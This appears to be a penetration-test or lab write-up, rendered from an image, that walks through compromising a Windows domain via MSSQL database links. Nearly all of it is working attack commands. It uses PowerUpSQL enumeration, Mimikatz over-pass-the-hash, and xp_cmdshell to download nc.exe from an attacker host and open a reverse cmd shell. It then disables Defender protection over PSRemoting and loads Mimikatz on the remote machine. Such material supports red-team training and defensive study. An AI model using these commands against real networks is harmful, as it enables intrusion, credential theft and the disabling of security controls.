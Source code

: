 ## Step to compromise
Enumerating the domain, we can see there is MSSQL instance running and a serviceprincipalname set 
for devsqladmin, we successfully kerberoasted the user, but failed to crack the hash. Running 
PowerUpSQL2 will allow us to enumerate the MSSQL Instance further. Running the following command 
will give us information about the SQL Instance:
```
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
```
Still using PowerUpSQL we look to see if there are any database links which will allow us to execute 
stored procedures.
```
Get-SQLServerLink -Instance [instance] -Verbose
Get-SQLServerLinkCrawl -Instance [instance] -Verbose
```
We can see in the verbose output that although we successfully connected to the Instance as ap 
the IsSysAdmin:0 means that we will not be allowed to enable xp_cmdshell. Luckily during enumeration 
of our USER machine, we acquired the NTLM hash of reportuser. Using Over pass the hash method we 
can get a powershell prompt in the context of reportuser.
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:reportuser 
/domain:[domain] /ntlm:[hash] 
/run:powershell.exe"'
```
We re-run our PowerUpSQL commands, and can see that reportuser has IsSysAdmin:1, allowing us to 
enable xp_cmdshell and successfully get a reverse shell
```
Get-SQLServerLinkCrawl -Instance [instance] -verbose
```
Now we can try running Queries to get code execution, we test with running whoami and can see that 
we are running as user\admin.
```
Get-SQLServerLinkCrawl -Instance [instance] -Query 
'exec master..xp_cmdshell "whoami"'
```
Now let’s try to upload nc.exe to the C:\Windows\Temp folder and execute it to give us a reverse shell 
as devsqladmin
```
Get-SQLServerLinkCrawl -Instance [instance] -Query 
'exec master..xp_cmdshell "powershell iex (New-Object 
Net.WebClient).DownloadFile(''http://[ip]/nc.exe'',''C:\Windows\Temp\
nc.exe'')"'
```
After nc.exe is successfully uploaded we can run the following command to execute it and send us 
reverse shell on port 9001 and running cmd.exe
```
Get-SQLServerLinkCrawl -Instance [instance] -Query 
'exec master..xp_cmdshell "C:\Windows\Temp\nc.exe -e cmd [ip] 9001"'
```
Using the USER machine, we listen on port 9001 and successfully get a shell as user\devsqladmin
```
nc.exe -lnvp 9001
```
Enumerating DEVSRV shows us that devsqladmin is a local administrator. We add the AD user to 
the Local Administrators and Remote Desktop Users group, so that we can use PSRemoting to execute 
locally loaded functions such as Invoke-Mimikatz on the remote machine. To do this we first 
DisableIOAVProtection so that we can easily run Mimikatz.
```
$sess = New-PSSession -ComputerName [computername]
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection 
$true} -Session $sess
```
Now we can locally load the function Invoke-Mimikatz
```
Import-Module .\Invoke-Mimikatz.ps1
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```
